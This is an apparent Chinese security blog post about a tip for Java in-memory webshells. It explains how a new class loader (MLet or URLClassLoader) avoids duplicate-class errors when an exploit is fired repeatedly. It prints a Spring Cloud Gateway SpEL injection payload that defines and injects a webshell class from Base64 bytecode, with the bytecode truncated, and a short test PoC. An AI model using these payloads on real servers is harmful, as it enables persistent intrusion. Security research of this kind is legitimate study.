 ```yaml
---
layout: post
title: 内存马加载报错重复类名规避小tip
date: 2022-03-10
categories: 内存马
excerpt: 在测试中会遇到内存马加载不成功的情况，于是多次打 poc复现问题就会报错类重复加载。发现了一个小 tip 使用新的类加载器规避掉类名重复的情况。
tags: java 
---
```


* content
{:toc}

# 内存马加载报错重复类名规避小tip

在测试中会遇到内存马加载不成功的情况，于是多次打`poc`复现问题就会报错类重复加载。

理解这很正常，`java`的双亲委派机制就是用于解决类冲突的，类加载器在收到类加载的请求之后，会优先让父类进行加载，保证某一个类在多个类加载器中是同一个。

报错内容如下
```
loader (instance of  sun/misc/Launcher$AppClassLoader): attempted  duplicate class definition for name:
```

为了规避这种情况，正常解决就是在生成内存马时随机类名。

在分析最新的springcloud spel 注入时，看到师傅提供的内存马可多次运行同类名字节码，

```
#{T(org.springframework.cglib.core.ReflectUtils).defineClass('Memshell',T(org.springframework.util.Base64Utils).decodeFromString('yv66vgAAA....'),new javax.management.loading.MLet(new java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())).doInject()}
```

一探究竟。

defineClass 与平时不同的是 使用了 Mlet 类加载器

```
new javax.management.loading.MLet(new java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())
```

平时在加载类时通常会使用当前线程的类加载器，也就是 `(java.lang.Thread).currentThread().getContextClassLoader()`

区别在于每次定义加载类 会 new 一个 classloader 对象，进行加载

查阅一番发现。

jsp 热部署就是这样实现的，每次有 jsp 文件更新，那么会重新编译和加载，新的 jsp class 文件就是用 JsperLodaer 进行加载的。
![993781409db773eae1c6d1b1cbb155ae.png](/img/memshell/3a1b33d67004423fac610a80505dafe7.png)

所以在使用 defineClass 加载重复类时，new 一个新的 Classloader 实例就行了

![af17e79998d2996b21bf5baa06eab840.png](/img/memshell/04b2ecf8f12d4b8a968fda1825271cc2.png)

提供测试 `poc`

```
ReflectUtils.defineClass("EvilByteCodes", Base64Utils.decodeFromString(evilString),new URLClassLoader(new java.net.URL[0]))
```

参考链接：

- Spring cloud gateway通过SPEL注入内存马 https://mp.weixin.qq.com/s/S15erJhHQ4WCVfF0XxDYMg
- JSP 热部署 源码解析 https://www.jianshu.com/p/01805c2a1036
